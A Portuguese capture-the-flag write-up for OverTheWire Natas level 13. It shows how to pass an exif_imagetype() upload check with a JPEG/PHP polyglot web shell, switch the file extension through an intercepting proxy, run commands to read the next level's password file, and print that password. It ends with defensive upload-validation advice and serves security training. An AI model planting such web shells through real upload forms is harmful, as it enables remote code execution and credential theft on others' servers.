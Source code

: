 # 🕵️ Natas - Nível 13 (🇧🇷 Português)  
*Data: 04/06/2025*  
*Dificuldade: Média*   
*Categoria: Web* 

---

## 🎯 Objetivo

O objetivo deste desafio é burlar uma validação de tipo de arquivo baseada em "magic bytes" (`exif_imagetype()`) e, combinando com a manipulação de nome de arquivo do nível anterior, alcançar Execução Remota de Código (RCE) para obter a senha do próximo nível (Natas14).  

---

## 🔎 Análise

- A vulnerabilidade de manipulação de nome de arquivo do Natas12 persiste: o nome e a extensão do arquivo a ser salvo são definidos por um campo oculto `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`. Isso permite que um atacante, ao interceptar a requisição HTTP (e.g., via Burp Suite), altere a extensão de .jpg para .php.
  
- Nova Verificação de Segurança: O script PHP agora inclui uma validação `! exif_imagetype($_FILES['uploadedfile']['tmp_name']`.  
  - A função exif_imagetype() lê os primeiros bytes do arquivo (conhecidos como "`magic bytes`" ou "`assinatura`") para determinar se ele corresponde a um formato de imagem válido (JPEG, PNG, GIF, etc.).  
  - Se o arquivo não possuir uma assinatura de imagem reconhecida, exif_imagetype() retorna false, fazendo com que o upload seja rejeitado com a mensagem "File is not an image".  
  - Isso impede o upload direto de um arquivo PHP puro, pois ele não possui magic bytes de imagem.
 
- Para contornar a verificação exif_imagetype(), precisamos criar um arquivo poliglota: um arquivo que seja válido tanto como uma imagem JPEG quanto como um script PHP. A chave para isso é inserir os magic bytes de um arquivo de imagem no topo do nosso código PHP.  
  - O interpretador de imagem exif_imagetype() lerá os magic bytes no início do arquivo e o reconhecerá como uma imagem.  
  - O interpretador PHP, ao executar o arquivo (uma vez que sua extensão tenha sido manipulada para .php, ignorará os magic bytes iniciais (que não são código PHP válido) e começará a interpretar o código PHP a partir da tag <?php.  

---

## 🧱 Etapas

1. Análise do Código Fonte: Confirmar a persistência da vulnerabilidade de `filename` (do Natas12) e identificar a nova validação `exif_imagetype()`.  
2. Preparar o Payload Poliglota: Criar um arquivo que contenha magic bytes de JPEG no início, seguidos pelo nosso shell PHP.
  - Utilizamos o terminal para criar o arquivo, garantindo a inserção correta dos bytes hexadecimais literais e do código PHP. 
  - Nosso payload PHP é `<?php system($_GET["cmd"]); ?>`.  
  - Os magic bytes JPEG são `\xFF\xD8\xFF\xE0` (para JFIF JPEG).  
3. Criar o Arquivo Malicioso via Terminal:  
```bash
  printf '\xFF\xD8\xFF\xE0' > bypass.php  
  printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
  - O primeiro printf cria o arquivo bypass.php com os magic bytes JPEG.  
  - O segundo printf (usando `>>`) anexa o payload PHP logo após os magic bytes, sem sobrescrever.  
4. Iniciar o Upload: No navegador, selecionar o arquivo bypass.php (ou o nome que você deu ao arquivo poliglota) e preparar para fazer o upload.
5. Interceptar e Manipular Requisição: Utilizar uma ferramenta proxy interceptadora (como Burp Suite) para capturar a requisição de upload.  
6. Alterar Extensão: Na requisição interceptada, localizar o parâmetro `filename` (que virá com um valor como [nome_aleatorio].jpg do campo oculto) e alterar sua extensão para `.php` (ex: `[nome_aleatorio].php`).  
7. Reenviar Requisição: Encaminhar a requisição modificada para o servidor. O servidor aceitará o arquivo, pois os magic bytes satisfazem `exif_imagetype()`.
8. Acessar o Shell Web: O servidor retornará o caminho do arquivo (ex: `upload/bldzmc4xs4.php`). Navegar até essa URL.
9. Executar Comandos (RCE): O shell PHP será interpretado. Adicionar o parâmetro `cmd` na URL para executar comandos.  
  - Testar: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=pwd` (retornará `/var/www/natas/natas12/upload`). 
  - Obter a senha do Natas14: `http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14`.  

---

## 🔑 Senha Encontrada

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

---

## ✅ Conclusão

A exploração do Natas13 foi bem-sucedida ao combinar a manipulação do nome do arquivo (persistente do nível anterior) com uma técnica de criação de arquivo poliglota (JPEG + PHP). A inserção de "magic bytes" de imagem no cabeçalho do nosso shell PHP permitiu que o arquivo passasse pela verificação `exif_imagetype()`, enquanto sua extensão manipulada (`.php`) garantiu que fosse interpretado pelo servidor PHP, resultando em Execução Remota de Código (RCE). Este desafio demonstra a importância de validações de upload robustas e multi-camadas que não se baseiem apenas em magic bytes ou extensões simples.


---

## 🧪 Comandos Utilizados

- Criação do arquivo poliglota `bypass.php` no terminal:
```Bash
printf '\xFF\xD8\xFF\xE0' > bypass.php
printf '<?php system($_GET["cmd"]); ?>' >> bypass.php
```
Obter senha do Natas14: 
```bash
http://natas13.natas.labs.overthewire.org/upload/bldzmc4xs4.php?cmd=cat%20/etc/natas_webpass/natas14
``` 
---

## 🧠 Observações

- Validação de Tipo de Conteúdo: Confiar apenas em `exif_imagetype()` não é suficiente. É vital verificar não apenas os magic bytes, mas também realizar uma validação mais profunda do conteúdo do arquivo (por exemplo, usando bibliotecas que realmente parseiam a estrutura da imagem e verificam sua integridade).  
- Segurança em Camadas: As validações de upload devem ser em camadas: tipo MIME (verificado via `Content-Type`), extensão (validada por whitelist), magic bytes, e, idealmente, verificação do conteúdo da imagem por uma biblioteca robusta (para evitar polyglots).  
- Isolamento de Uploads: Arquivos enviados por usuários devem ser armazenados em um diretório que não permita execução de scripts e, se possível, servidos via um domínio ou CDN diferente.  
- Princípio do Mínimo Privilégio: Certifique-se de que o usuário sob o qual o servidor web roda tenha as permissões mínimas necessárias, limitando o impacto de um RCE.  


---

## 📎 Scripts desenvolvidos

`bypass.php`: Um arquivo poliglota PHP/JPEG (`<?php system($_GET['cmd']); ?>` com magic bytes JPEG) criado diretamente no terminal.

---

<p align="center"> <a href="../Natas12/Readme-BR.md">⬅️ Anterior</a> • <a href="../Natas14/Readme-BR.md">Proximo ➡️</a> </p>
